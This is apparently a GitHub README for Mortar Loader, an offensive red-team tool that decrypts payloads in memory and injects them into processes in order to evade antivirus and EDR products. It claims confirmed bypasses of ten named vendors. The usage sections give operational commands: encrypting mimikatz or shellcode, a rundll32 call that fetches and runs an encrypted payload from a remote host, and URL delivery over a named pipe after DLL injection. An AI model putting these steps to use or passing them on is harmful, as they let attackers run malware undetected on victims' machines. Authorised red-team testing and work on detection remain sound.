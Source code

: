 [<img src="https://img.shields.io/twitter/follow/zux0x3a?label=follow&style=social">](https://twitter.com/zux0x3a)

# Mortar Loader 

Red teaming evasion technique to defeat and divert detection and prevention of security products.Mortar Loader performs encryption and decryption PE/Shellcode inside the memory streams and execute it leveraging several injection techniques . 
Mortar is able to bypass modern anti-virus products and advanced XDR solutions and it has been tested and confirmed bypass for the following: 

* Kaspersky  :heavy_check_mark:
* ESET AV / EDR :heavy_check_mark:
* Malewarebytes :heavy_check_mark:
* Mcafee :heavy_check_mark:
* Windows defender :heavy_check_mark:
* Cylance :heavy_check_mark:
* TrendMicro :heavy_check_mark:
* Bitdefender :heavy_check_mark:
* Norton Symantec :heavy_check_mark:
* Sophos EDR :heavy_check_mark:


##  Updated features 

The newer version release (v3) has been released with the following features : 

* Fileless execution with remote staged encrypted binary or shellcode.
* Early Bird APC injection.
* Process masquerading.
* Supports Named Pipes.
* Strings and function calls obfuscation.
* Mortar covert reload subroutine.
* Delay execution techniques.

For more technical description, refer to the following blogpost : https://kpmg.com/nl/en/home/insights/2023/12/mortar-loader.html 

## Usage 

### Encryptor 

The encryptor encrypt C ShellCode and PE binaries and write the output into .enc file. 
you are allowed to use any payload(MSF/cobalt/Havoc..etc) as you prefer as long it is x64 arch and not RAW. 

```
root@kali>./encryptor -f mimikatz.exe -o bin.enc 
root@kali>./encryptor -f shellcode.c -o bin.enc 
```

### Mortar Loader Library

The newer release leverage several techniques combined with remote payload fetching, recommend to refer to following blogpost to get more insights. 

for quick instructions 

```
# PE Forking

1. host your encrypted binary on remote host. 
2. encode the final URL with base64. 
3. rundll32.exe agressor.dll,viewlogs [BASE64 URL].
4. covert reload subroutine technique is enabled. 
```

currently supports early bird injection in combination with Named Pipes to receive variables for final execution.  
```
1. inject Mortar DLL into remote process( DLL injection, Hijacking, sideloading).
2. connect into the named pipe to supply your URL 
   echo {BASE64 URL} > \\.\pipe\moj_ML_ntsvcs 
3. payload will be executed once valid value has been recieved. 
```

## Compiling 

the project has been coded using FPC(Free Pascal), the compiling procedures are straightforward by downloading and installing Lazarus IDE (https://www.lazarus-ide.org/index.php?page=downloads).

for the encryptor you you can download it from the release section or compile it easily with lazarus ide. 

```
#Debian & Ubuntu 

apt install fpc 
apt install lazarus-ide 

```

## Publications 

* The v1 release : https://0xsp.com/security%20research%20&%20development%20(SRD)/defeat-the-castle-bypass-av-advanced-xdr-solutions
* Mortar Loader v2 features : https://0xsp.com/offensive/mortar-loader-v2/
* CrestCon Asia 2021 talk : https://www.youtube.com/watch?v=H7EMBz7GLMk

## Sponsor ?
the development of mortar or any shared project is an outcome from my personal time.
- you show continues appreciation of my work. 
- you will get early access to pre-release. 
- ask questions / will be answered. 
